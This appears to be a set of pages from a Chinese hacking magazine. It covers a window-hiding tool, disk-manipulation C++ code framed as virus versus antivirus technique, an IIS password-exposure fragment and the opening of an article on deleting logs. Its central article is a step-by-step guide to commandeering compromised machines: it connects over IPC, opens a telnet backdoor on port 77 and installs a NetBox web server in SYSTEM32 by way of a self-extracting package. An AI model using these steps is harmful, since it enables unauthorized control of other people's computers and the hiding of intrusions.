

- **Auto hide task bar**：自动隐藏任务栏。启用后，在隐藏窗口时会把任务栏也隐藏，但其他可见窗口就有悬空的感觉，不是很实用。
- **Show WinHider tray icon**：是否显示WinHider的托盘图标，建议别显示，容易被别人发现。
- **Auto hide application taskbar icon**：自动隐藏程序在任务栏上的图标。如果选中，那么WinHider会隐藏所选任务的任务栏图标（不是任务栏本身）。
- **Auto hide application tray icon**：自动隐藏程序的托盘图标。注意，这个其实是删除，是无法恢复的。这个选项对付一些即时聊天还是很管用的。
以上两个“Auto hide”，在Win98下是灰的，不可用。
- **Refresh interval**：设定WinHider自动刷新的速度，以秒为单位，这个速度也是WinHider捕获任务窗口的速度，建议为1或者3秒。如果这个值为0，那么WinHider就罢工不刷新了。
- **按钮Apply option**：把选项存在配置文件里，下次可以接着用。

好了，通过这些介绍想必大家都能玩转WinHider了，希望大家不要被Boss和gf抓到哦！WinHider正式版的下载地址为：http://www.mujweb.cz/www/komsbomb/dev/winhider.zip。

> wtf：什么啊，只知道每天趁人家最饿的时候明目张胆地啃鸡腿，还悄悄地逛网站，听着你吃鸡腿那“美妙”的声音，看着你美美地逛网站，我急啊！肚子还咕咕叫！可是我为什么每次就被boss抓到啊？5555^命苦！就你小样儿知道WinHider，现在我都知道了！哼哼！——我错了我错了，别！别！别拿鸡腿砸我啊！疼！

蝴蝶：想来很多读者都很想要Web服务器吧？可是现在免费的主页空间实在难以寻觅，并且支持asp、cgi、php的空间对我们多数人来说可不便宜。但网上有那么多肉鸡，为什么不可以利用它们呢？或许可以将它们变成自己的Web服务器？可以吗？让我们来看看本文——

- **难度等级**：中
- **前置知识**：Windows使用经验，命令行方式的操作经验

## 命令行下将肉鸡做成服务器



文／图 汝林

天天在网上乱转，一有好东西出来总喜欢试试。这二天又看到了一个好东东——小巧的Web服务器NetBox。说道这个东西可厉害了，不仅小巧，而且完全是在命令行下进行安装。更刺激的是，Netbox完全支持ASP，也就是说你只要一安装它，就可以得到一台ASP服务器了。可以装动网论坛，可以装下载程序，反正就是你的了。OK！各位快快拿出自己的肉鸡，我们一起将肉鸡变成服务器！

首先我们要下载Netbox。找不到的朋友可以到影子鹰安全网络下载中心进行下载http://www.cnhacker.cn。下载完即可解压，这是一个解压包：里面有5个主要的文件，还有1个文件夹和1个ASP文件。另外还有一些说明文件，大家可以先看一看。我们首先将MAIN.BOX这个文件用记事本打开，修改其中的端口，还有目录，设为你想要的（图1）。

看到没有？我将端口改为了88，将默认目录改为了WWW。保存退出。

```vb
Shell.Service.RunService "W8Web", "NetBox Web Server", "NetBox Http Server Sample"

Sub OnServiceStart()
    Set httpd = CreateObject("Netbox.HttpServer")
    If httpd.Create("", 88) = 0 Then
        Set host = httpd.AddHost("", "\\www")
        host.EnableScript = true
        host.AddDefault "default.asp"
        host.AddDefault "default.htm"
        httpd.Start
    Else
        Shell.Quit 0
    End If
End Sub

Sub OnServiceStop()
End Sub
```
图1

接下来，当然是将这些文件上传到你肉鸡的SYSTEM32目录下，包括解压出来的文件夹和ASP文件（图2）。


图2

先和你的肉鸡进行IPC连接，这些是大家熟得不能再熟的工作了。下面我们做个自解压包，将所有的解压出来的文件选中，右键鼠标，选择添加到档案文件，做成一个压缩包，然后再双击这个压缩包，选择最边上的自释放，进入后设置自解压路径和解压后运行INSTALL.BAT这个批处理（如图3和图4所示）。






这样设置后，只要我们一解压就会自动运行INSTALL.BAT这个批处理，做好后选“完成”，这样就做好了一个自解压的压缩包，所有文件都放入这个压缩包中了。我们现在先将这个压缩包上传到我们的肉鸡上（图5）。



OK！上传完毕，现在所有的文件都已上传到肉鸡之中了。我们现在要登录肉鸡了，我不知道各位准备如何登录肉鸡，反正我一直都用的是 OPENTELNET，只要有肉鸡的 USER 和 PASSWORD，就可以在本地远程给肉鸡开一个端口为 77 的后门（图6）。

然后就是在你本机的 CMD 下，TELNET IP 到肉鸡的 77 端口，好了，看看我们上传的自解压包还在不在（图7）。

看看都在吧。快快运行一下：`C:\WINNT\SYSTEM32\NETBOXA.EXE`。

打开我们的 IE，输入肉鸡的 IP 加上你设置的端口。呵呵，服务器启动了（图8）。

以后我们就可以利用这个自解压包上传到我们手中控制的肉鸡上，将每一个肉鸡都变成一个支持 ASP 的服务器。在 QQ 上见到朋友你也可以很大方地说，要不要 ASP 服务器呀，给你一个！哈哈！



## 黑白对抗中的磁盘操纵技术

### 深入探析

icefire：无论是在病毒还是在反病毒技术中，对磁盘的操纵都是一个永恒的话题，这其中包括获取磁盘空间数据、磁盘遍历、文件搜索、文件目录删除等等，很多朋友觉得很神秘，一直有这方面的疑问，所以下面我们就和大家一起讨论这方面的编程技术，希望能够起到抛砖引玉的作用。

- **难度等级**：中
- **前置知识**：磁盘、API、VC++ 相关知识

### 获取磁盘空间的数据

如果是病毒，它是如何来获取磁盘空间的数据信息的？而且还能得到当前计算机有些什么逻辑驱动器？下面我们一个一个讲：

首先来看一下在已经知道逻辑驱动器名称时如何得到磁盘空间信息，这里有一个 API 函数，其原型如下：

```cpp
BOOL GetDiskFreeSpaceEx(
    LPCTSTR lpDirectoryName,            // 文件夹或者是驱动器全路径
    PULARGE_INTEGER lpFreeBytesAvailableToCaller, // 可以利用的磁盘空间
    PULARGE_INTEGER lpTotalNumberOfBytes,         // 磁盘或文件夹总的空间数量
    PULARGE_INTEGER lpTotalNumberOfFreeBytes      // 剩余的磁盘或文件夹空间数量
);
```

关于这个函数的参数的几点说明：

1. 第一个参数如果为空，则返回程序所在当前目录的空间数据。如果使用的是 UNC 路径，则要在最后加一个反斜线。例如，你指定的路径为 `\\MyServer\MyShare`，则要写成 `\\MyServer\MyShare\`。
2. 对于后面第一和第三个参数，如果系统在磁盘上作了每用户的磁盘配额，则得到的数据可能会比实际的数据要小。
注：关于磁盘配额的知识，读者可以参考笔者在黑防的 2003 年第 10 期上发表的《NTFS 全面解决 Windows2000 的安全方案》一文。

对于获取所有驱动器的 API 函数原型如下：

```cpp
DWORD GetLogicalDriveStrings(
    DWORD nBufferLength,   // 用来存放驱动器名的缓冲区的大小
    LPTSTR lpBuffer        // 指向存放驱动器名的缓冲区的指针
);
```

这个程序的源代码读者可以在附书光盘中找到，名为“获取磁盘空间数据”，用 VC++6.0 编写。核心代码如下：

```cpp
void CDrvSpaceDlg::OnGetDrvSpaceinfo() // 获取磁盘空间数据函数
{
    UpdateData(TRUE); // 更新列表框
    CString Driver;
    CComboBox* pDriver = (CComboBox*)GetDlgItem(IDC_DRIVER);
    pDriver->GetWindowText(Driver);

    // 获得磁盘空间信息
    ULARGE_INTEGER FreeAv, TotalBytes, FreeBytes;
    if(GetDiskFreeSpaceEx(Driver, &FreeAv, &TotalBytes, &FreeBytes))
    {
        // 格式化信息
        CString strTotalBytes, strFreeBytes;
        strTotalBytes.Format("%I64u 字节", TotalBytes.QuadPart);
        strFreeBytes.Format("%I64u 字节", FreeBytes.QuadPart);
        
        CStatic* pTotalStatic = (CStatic*)GetDlgItem(IDC_TOTAL);
        CStatic* pFreeStatic = (CStatic*)GetDlgItem(IDC_FREE);
        pTotalStatic->SetWindowText(strTotalBytes);
        pFreeStatic->SetWindowText(strFreeBytes);
    }
}
```

下面的函数可用来取得磁盘的逻辑驱动器并添加到下拉框中：

```cpp
void CDrvSpaceDlg::FindAllDrivers()
{
    CComboBox* Driver = (CComboBox*)GetDlgItem(IDC_DRIVER);
    DWORD dwNumBytesForDriveStrings; // 实际存储驱动器号的字符串长度
    HANDLE hHeap;
    LPSTR lp;

    // 获得实际存储驱动器号的字符串长度
    dwNumBytesForDriveStrings = GetLogicalDriveStrings(0, NULL) * sizeof(TCHAR);

    // 如果字符串不为空，则表示有正常的驱动器存在
    if (dwNumBytesForDriveStrings != 0) {
        // 为了实现安全的内存分配，在堆中分配字符串空间
        hHeap = GetProcessHeap(); // 得到本进程的堆句柄
        lp = (LPSTR)HeapAlloc(hHeap, HEAP_ZERO_MEMORY, dwNumBytesForDriveStrings);
        
        // 获得标明所有驱动器的字符串
        GetLogicalDriveStrings(dwNumBytesForDriveStrings, lp);

        // 将驱动器一个个放到下拉框中。因为每一个驱动器符号放入堆中时形如A:\0C:\0D:\0
        // 所以每次在\0（也就是NULL）之前的字符串添加到Driver之后，应该将指针移到0之后的位置
        while(*lp != 0) {
            Driver->AddString(lp);
            // 函数 _tcschr() 用来得到下一个0的指针值
            lp = _tcschr(lp, 0) + 1;
        }
    }
    else {
        AfxMessageBox("Can't Use The Function GetLogicalDriveStrings!");
    }
}
```

### 递归法遍历磁盘目录

上面是病毒类技术常用的搜索当前计算机上磁盘信息的办法，属于“黑”方面的，下面我们来看一个属于“白”方面的：杀毒软件大家不陌生吧？

当运行一个杀毒软件的时候，我们经常可以看到软件在不停地搜索文件，并不断将搜索到的文件显示出来。这里所用到的技术就是将要提到的递归法遍历磁盘技术。

MFC 的 CFileFind 类的函数 FindFile 和 FindNext 可以访问某一个目录下一层的文件和文件夹，然后调用函数 IsDirectory 和 IsDots（每一个文件夹新建时都有两个默认文件夹，分别用 . 和 .. 表示，这里使用 IsDots 就是为了排除这两个文件夹）判断到底是文件夹还是文件，如果是文件夹则继续向下一层目录递归搜索，直到所有的文件都访问完为止。核心部分的源代码如下：

```cpp
void CBrowseDirDlg::BrowseDir(CString strDir)
{
    CFileFind ff;
    CString szDir = strDir;
    if(szDir.Right(1) != "\\")
        szDir += "\\";
    szDir += "*.*";
    BOOL res = ff.FindFile(szDir);
    while(res)
    {
        res = ff.FindNextFile();
        if(ff.IsDirectory() && !ff.IsDots())
        {
            // 如果是一个子目录，用递归继续往深一层找
            BrowseDir(ff.GetFilePath());
        }
        else if(!ff.IsDirectory() && !ff.IsDots())
        {
            // 显示当前访问的文件
            CStatic* p = (CStatic*)GetDlgItem(IDC_STATIC_FILE);
            CString str;
            str.Format("当前访问的文件：%s", ff.GetFilePath());
            p->SetWindowText(str);
            Sleep(500);
        }
    }
    ff.Close(); // 关闭
}
```

注：这些程序为了面向广泛的读者，都没有使用 GUI 线程与 WORKER 线程分离的技术，所以程序运行起来之后，只有强制结束，还望读者谅解。

### 快速检索文件

Windows 中提供了检索文件的工具，而且功能很强大，本例中我们将讨论如何在自己的程序中实现这一功能。读者可以在附书光盘中找到源程序，名称为“快速检索文件”，使用 VC++6.0 编写。

```cpp
void CSearchFileDlg::SearchFile(CString strDir, CString strFile)
{
    CFileFind ff;
    // 对要搜索的目录右边的反斜线进行处理，为了能够对所有文件递归搜索，加上 *.*
    CString szDir = strDir;
    if(szDir.Right(1) != "\\")
        szDir += "\\";
    szDir += "*.*";
    BOOL res = ff.FindFile(szDir);
    while(res)
    {
        res = ff.FindNextFile();
        if(ff.GetFileName() == strFile)
        {
            // 如果找到了文件，则将其加入列表框中
            m_ctrlFilesList.AddString(ff.GetFilePath());
        }
        if(ff.IsDirectory() && !ff.IsDots())
        {
            // 如果是一个子目录，用递归继续往深一层找
            SearchFile(ff.GetFilePath(), strFile);
        }
    }
    ff.Close(); // 关闭文件对象
}
```

### 删除不为空的目录

删除目录时，必须保证目录为空，否则将不允许删除。这里，我们将使用 Windows 提供的删除目录的函数 RemoveDirectory，在保证目录中文件已经全部删除的情况下，删除该空目录。这里我们同样使用递归的方法，对于子目录，也用同样的方法删除。源程序名称为“删除目录”，可以在附书光盘中找到，用 VC++6.0 实现。

```cpp
void CDelUnEmptyDirDlg::RecursiveDelete(CString szPath)
{
    CFileFind ff;          // 定义一个 CFileFind 对象

    CString path = szPath;
    if (path.Right(1) != "\\")
        path += "\\";
    path += "*.*";
    // 匹配指定文件夹下的所有文件，以便进行删除

    BOOL res = ff.FindFile(path);
    while (res)
    {
        res = ff.FindNextFile();
        // 是文件时直接删除
        AfxMessageBox(ff.GetFilePath());
        if ((!ff.IsDots()) && (!ff.IsDirectory()))
            // 如果既不是 . 目录，也不是 .. 目录，则可确定是文件，直接删除
            DeleteFile(ff.GetFilePath());
        else if (ff.IsDots())
            // 如果是 . 和 ..，说明文件夹已经为空，则继续搜索文件
            continue;
        else if (ff.IsDirectory())
        {
            path = ff.GetFilePath();
            // 是目录时继续递归，删除该目录下的文件
            RecursiveDelete(path);
            // 目录为空后删除目录
            RemoveDirectory(path);
        }
    }
    // 最终目录被清空了，于是删除该目录
    RemoveDirectory(szPath);
}
```

写到这里，并没有将在黑白对抗中所用到的所有的磁盘操纵技术尽收眼底。剩下的一些技术，感兴趣的朋友可以结合上面提到的方法和技巧，在实践中举一反三，触类旁通。

**后记：** 关于磁盘的操纵技术，细节和技巧很多，读者要想在这方面有所建树，一定要多看别人写的程序，观察其中用到的方法，不仅要知道怎么做，还要明白为什么这么做。关于这方面的内容，CVC 论坛上讨论的也比较多，读者可以登录 www.logoncom.com 参与讨论。

（上接第23页）

对，这是看不到密码的情况，因为 IIS 采用的是 Windows 集成认证。但是当我们把 IIS 的认证方式改为基础认证的时候（图4）：试试。为什么这里出现的是 administrator 的密码呢？因为输入了一个可以被认证的用户来访问 IIS，所以密码就显示出该用户的。如果你输入的是别人的密码，只要取得了认证，那么密码也会被送出来。

我们再关闭浏览器，看看其运行结果（图5）：呵呵，很吃惊吧！是不是我们的密码被清楚地写了出来。不相信的朋友可以亲自试试。

现在面对你的 IIS 安全配置，你不会再无从下手了吧。只有善于总结，我们的安全知识才能飞速增长哦！

本文的出发点是要读者看清楚安全漏洞的本质和影响，请不要利用此安全漏洞做任何非法的操作，否则后果自负哦。

> icefire：日志是系统记录用户操作情况的地方，任何一个学习网络安全的人都应该明确日志在系统中的重要作用，但是安全方面该如何保护日志？入侵者又该如何方便、实用地删除日志？这对矛盾并不是人人都能化解的。下面就给大家带来一篇介绍如何通过编程实现日志删除的文章，目的是想让大家在学到编程知识的同时，也能明白删除日志的大体流程并对应地去体会保护日志被删除的方法！
> 
> 难度等级：初级
> 前置知识：C 语言基础

## 也玩清除日志
文 / 小华健

